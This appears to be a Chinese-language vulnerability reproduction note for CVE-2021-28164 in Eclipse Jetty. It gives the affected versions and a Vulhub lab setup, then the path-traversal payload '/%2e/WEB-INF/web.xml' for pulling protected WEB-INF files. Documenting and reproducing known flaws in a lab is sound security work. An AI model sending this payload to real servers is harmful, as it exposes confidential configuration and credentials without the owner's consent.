



# CVE-2021-28164

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jetty WEB-INF 敏感信息泄露漏洞


## 0x01 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

## 0x02 影响版本

```
9.4.37.v20210219
9.4.38.v20210224
```

## 0x03 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.37：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。



## 0x04 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：



使用`%2e/`来绕过限制下载web.xml：

```
/%2e/WEB-INF/web.xml'
```

